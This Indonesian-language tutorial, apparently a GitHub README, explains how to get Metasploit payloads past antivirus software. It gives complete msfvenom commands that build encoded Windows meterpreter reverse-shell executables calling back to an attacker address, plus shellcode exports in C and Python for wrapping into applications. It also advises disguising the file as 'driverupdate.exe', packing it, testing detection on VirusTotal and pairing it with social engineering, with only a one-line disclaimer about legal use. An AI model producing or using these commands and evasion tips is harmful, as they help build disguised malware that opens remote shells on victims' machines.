 # Bypass Antivirus (AV) dengan Metasploit Framework

## A. Kenapa Perlu Bypass AV?

Saat payload buatan Metasploit dieksekusi di sistem target, antivirus modern bisa langsung mendeteksi dan memblokirnya. Oleh karena itu, bypass AV menjadi langkah penting agar payload dapat berjalan tanpa terdeteksi.

## B. Teknik Umum Bypass AV

| Teknik | Deskripsi |
|:--:|:-:|
| Encoding Payload | Mengacak struktur payload agar tidak dikenali signature AV. |
| `Packing/Obfuscation` | Membungkus file dengan enkripsi atau modifikasi struktur file. | 
| Custom Payload Wrapper | Menulis skrip sendiri dalam `Python/C/VB` yang menjalankan `shellcode`. |
| Menghindari Signature Payload | Tidak menggunakan payload default bawaan Metasploit. |

## C. Bypass AV dengan Encoder Metasploit Framework

Gunakan encoder saat membuat payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.100`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe` 

Encoder Populer di Metasploit:
- `x86/shikata_ga_nai`
- `cmd/powershell_base64`
- `x86/countdown`
- `x86/jmp_call_additive`

Cek Semua Encoder:

```
msfvenom --list encoders
```

## D. Membungkus Payload dalam Bahasa Pemrograman Lain

### 1. Format C:

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c -o payload.c
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `c`
   - `-o` : Nama file hasil payload: `payload.c`

  
   Compile secara manual dan modifikasi kode untuk menyisipkan ke aplikasi.

### 2. Format Python:

  ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python -o payload.py
   ```

   Keterangan:
   - `-p` : Jenis payload: `windows/meterpreter/reverse_tcp`
   - `LHOST` : IP Attacker: `192.168.1.100`
   - `LPORT` : Port listener: `4444`
   - `-f` : Format payload: `python`
   - `-o` : Nama file hasil payload: `payload.py`
  
   Bisa dikonversi ke `.exe` dengan `pyinstaller`, dan payload dapat disamarkan.

## E. Catatan Penting

- Teknik bypass AV tidak menjamin selalu berhasil.
- AV signature terus diperbarui -> butuh improvisasi dan eksperimen.
- Gunakan hanya untuk tujuan edukasi dan pengujian legal.

## Tips Tambahan

| Tips | Penjelasan |
|:--:|:-:|
| Ganti nama file | Gunakan nama umum seperti driverupdate.exe |
| Obfuscate | Gunakan tool seperti `UPX`, `PyArmor`, `dll` |
| Test | Gunakan VirusTotal untuk uji deteksi |
| Ganti payload | Hindari payload yang umum seperti `meterpreter/reverse_tcp` |
| Social Engineering | Gabungkan dengan file asli atau teknik persuasi |
